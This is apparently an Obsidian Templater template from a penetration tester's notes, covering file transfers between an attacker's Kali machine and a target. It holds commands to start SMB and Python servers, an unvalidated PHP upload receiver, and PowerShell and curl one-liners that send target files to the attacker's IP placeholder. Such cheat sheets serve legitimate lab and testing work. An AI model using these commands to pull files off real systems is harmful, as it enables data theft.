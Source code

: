 <%-* let os = String(tp.frontmatter.OS).toLowerCase() -%>
## File transfers

### Start SMB server with username/password
```bash
smbserver.py <name_of_share> <path/on/local/machine> -username kali -password kali -smb2support
```
### Start SMB server withoouth username/password
```bash
smbserver.py pwn <path/on/local/machine> -smb2support
```
<%* if (os === 'windows') { -%>
#### Transfer to kali from windows SMB
```powershell
copy <local file> \\<% tp.frontmatter.my_ip %>\pwn\<file>
```
<%-* } %>
### Start python web server
```bash
python -m http.server 80
```
### Start python web server in different directory
```bash
python -m http.server 80 --directory <path>
```

### Upload to your box
Make sure `/var/www/uploads` exists
```php
<?php
$uploaddir = '/var/www/uploads/';

$uploadfile = $uploaddir . $_FILES['file']['name'];

move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```

<%-* if (os === 'windows') { -%>
#### Powershell oneliner to upload
```powershell
powershell (New-Object System.Net.WebClient).UploadFile('http://<% tp.frontmatter.my_ip %>', '<file>')
```
<%-* } else { -%>
#### oneliner to upload
```bash
curl -F 'file=@<path_to_file>' http://<% tp.frontmatter.my_ip %>
```
<%-* } %>
<%* if (os== 'linux') { -%>
<% tp.file.include("[[Templates/Linux]]") %>
<%-* } else if (os == 'windows') { -%>
<% tp.file.include("[[Templates/Windows]]") %>
<%-*} else { %>
<% os %> not valid
<%-*}-%>
